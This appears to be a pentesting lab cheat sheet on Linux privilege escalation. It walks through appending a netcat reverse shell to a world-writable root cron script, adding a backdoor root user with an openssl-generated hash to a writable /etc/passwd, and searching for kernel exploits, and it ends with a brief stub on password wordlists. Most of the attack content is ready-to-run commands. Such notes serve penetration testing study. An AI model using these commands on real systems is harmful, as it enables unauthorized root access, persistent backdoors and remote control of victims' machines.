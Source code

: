 # Linux Privilege Escalation

### Insecure file permissions

### Cron based time job

Inspect cron log for running jobs

```
grep "CRON" /var/log/cron.log  

Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:50:01 victim CRON[2631]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:55:01 victim CRON[2656]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)

```

run every 5 mins

ls -lah to show its permission (rwxrwxrwx)

add following to the script (See [Reverse-shell-Cheat-Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f 
```

## Insecure /etc/passwd Permission

if a password hash is present in the second column of a /etc/passwd user record, it is considered valid for authentication and it takes **precedence** over the respective entry in /etc/shadow if available

### Generate password hash

```
openssl passwd evil
AK24fcSx2Il3I

echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd

username:passwordhash:userid:groupid:
```

## Linux Kernel Vulnerabilities

Lab machine: ssh n00b@10.11.0.129

inspecting the /etc/issue file

```
uname -r 
-r, --kernel-release     print the kernel release
arch
```

```
searchsploit linux kernel ubuntu 16.04
```

## Compile C/C++

match the architecture of the target machine

# Password Attacks

## Standard wordlist

Kali linux has some stored in `/usr/share/wordlists/`